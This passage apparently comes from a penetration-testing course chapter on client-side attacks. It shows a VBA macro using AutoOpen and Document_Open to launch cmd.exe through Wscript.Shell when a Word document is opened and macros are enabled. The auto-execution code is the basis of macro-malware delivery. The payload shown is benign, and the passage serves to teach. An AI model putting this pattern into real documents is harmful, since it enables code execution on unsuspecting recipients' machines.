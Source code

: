 The main procedure used in our VBA macro begins with the keyword Sub and ends with End Sub. This essentially marks the body of the macro

![](./img/Chapter13/13.png)

To invoke the Windows Scripting Host through `ActiveX`, we can use the `CreateObject` function along with the `Wscript.Shell` `Run` method

```js
Sub AutoOpen()
    MyMacro
End Sub
Sub Document_Open()
    MyMacro
End Sub
Sub MyMacro()
    CreateObject("Wscript.Shell").Run "cmd"
End Sub
```

The `AutoOpen()` procedure is executed when the document is opened. The `Document_Open()` procedure is executed when an already-open document is reopened. Both of these procedures can call our custom procedure and therefore run our code

Save the document as a macro-enabled document with the `.docm` or `.doc` extension

When we reopen the document containing our macro, we will be presented with a security warning indicating that macros have been disabled

![](./img/Chapter13/14.png)

Click Enable Content to run the macro, the `cmd.exe` window will be opened
